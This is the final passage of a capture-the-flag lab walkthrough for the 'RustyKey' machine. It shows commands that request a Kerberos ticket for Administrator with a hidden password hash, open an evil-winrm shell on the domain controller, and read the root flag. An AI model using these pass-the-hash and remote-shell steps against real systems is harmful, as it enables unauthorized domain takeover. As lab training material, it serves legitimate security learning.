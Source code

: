 Now, it's time to own the root flag.
```
getTGT.py rustykey.htb/'Administrator' -hashes ":<hidden>"
```
```
export KRB5CCNAME=Administrator.ccache
evil-winrm -i dc.rustykey.htb -u 'Administrator' -r rustykey.htb
```
And Boom! We get it.

The root flag can be found by executing the following command.
```
type C:/Users/Administrator/Desktop/root.txt
```

This concludes the RustyKey Machine.